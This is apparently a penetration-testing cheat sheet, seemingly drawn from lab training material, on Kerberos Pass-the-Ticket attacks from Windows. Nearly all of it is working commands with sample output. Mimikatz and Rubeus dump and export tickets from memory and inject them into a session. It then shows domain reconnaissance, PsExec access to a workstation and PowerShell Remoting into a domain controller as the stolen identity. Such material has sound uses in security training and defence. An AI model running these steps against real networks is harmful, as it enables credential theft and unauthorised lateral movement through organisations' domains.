 ### Content
- [PtT from Windows](#ptt-from-windows)
	- [Conduct internal reconnaissance](#conduct-internal-reconnaissance)
	- [Access resources as the another user](#access-resources-as-the-another-user)
	- [Pass The Ticket with PowerShell Remoting (Windows)](#pass-the-ticket-with-powershell-remoting-(windows))
		- [Mimikatz - PowerShell Remoting with Pass the Ticket](#mimikatz---powershell-remoting-with-pass-the-ticket)
		- [Rubeus - PowerShell Remoting with Pass the Ticket](#rubeus---powershell-remoting-with-pass-the-ticket)
---
- In this attack, we use a stolen Kerberos ticket to move laterally
- A valid Kerberos ticket required to perform a `(PtT)` can be:
	- `TGS` to allow access to a particular resource.
	- `TGT` to request service tickets to access any resource the user has privileges on.
- **As a non-administrative user**, you can only get your tickets, but **as a local administrator**, you can collect everything.
---
## PtT from Windows
1. Mimikatz
	``` Powershell
	# Collect tickets
	PS> mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"
	########
	# mimikatz outputs all tickets to screen and also writes them individually to files in the current directory.
	# Computer account ticket: Ends with $ and needs a ticket to interact with AD
	# User ticket: [randomvalue]-username@service-domain.local.kirbi
	#########
	
	# Inject tickets
	PS> mimikatz.exe "privilege::debug" "kerberos::ptt [0;1e4c7df]-2-0-40e10000-joed@krbtgt-DOMAIN.COM.kirbi"
	
	# spawn CMD with the injected ticket
	PS> mimikatz.exe "misc::cmd"
	```
2. Rubeus
	``` Powershell
	# Collect tickets
	PS> Rubeus.exe dump /nowrap
	
	# Convert .kirbi to Base64 Format
	PS c:\tools> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[randomvalue]-username@service-domain.local.kirbi"))
	# Inject ticket kirbi file
	PS> Rubeus.exe ptt /ticket:<.kirbi file>
	
	# Inject ticket base64 blob
	PS> Rubeus.exe ptt /ticket:<Base64Blob>
	```
---
### Conduct internal reconnaissance
Once a stolen ticket is ready for reuse, the threat actor needs to determine where it can be used:
``` Powershell
PS> net user joed /domain
```
### Access resources as the another user
Used after injecting ticket with either Rubeus or Mimikatz
``` Powershell
PS> .\PsExec.exe \\workstation456 powershell.exe
```
### Pass The Ticket with PowerShell Remoting (Windows)
- Enabling [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) creates both HTTP port TCP/5985 and HTTPS port TCP/5986 listeners.
- To create a PowerShell Remoting session on a remote computer, you must have `administrative permissions`, be a member of the `Remote Management Users group`, or have explicit `PowerShell Remoting permissions` in your session configuration.
#### Mimikatz - PowerShell Remoting with Pass the Ticket
``` Powershell
# Once the ticket is imported into our sesssion, if it's a cmd session, open powershell 
PS> mimikatz.exe "privilege::debug" "kerberos::ptt [0;1e4c7df]-2-0-40e10000-joed@krbtgt-DOMAIN.COM.kirbi"

# Use the command Enter-PSSession to connect to the target machine.
PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\joed\Documents> whoami
doamin\joed
[DC01]: PS C:\Users\joed\Documents> hostname
DC01
[DC01]: PS C:\Users\joed\Documents>
```
#### Rubeus - PowerShell Remoting with Pass the Ticket
Rubeus has the option `createnetonly`, which creates a sacrificial process/logon session ([Logon type 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)). The process is hidden by default, but we can specify the flag `/show` to display the process, and the result is the equivalent of `runas /netonly`. This prevents the erasure of existing TGTs for the current logon session.
``` CMD
C:\tools> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
# The above command will open a new cmd window.
# From that window, we can execute Rubeus to request a new TGT 
# with the option /ptt to import the ticket into our current session 
# Then connect to the DC using PowerShell Remoting.
C:\tools> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256: /ptt
c:\tools>powershell
PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
```
---


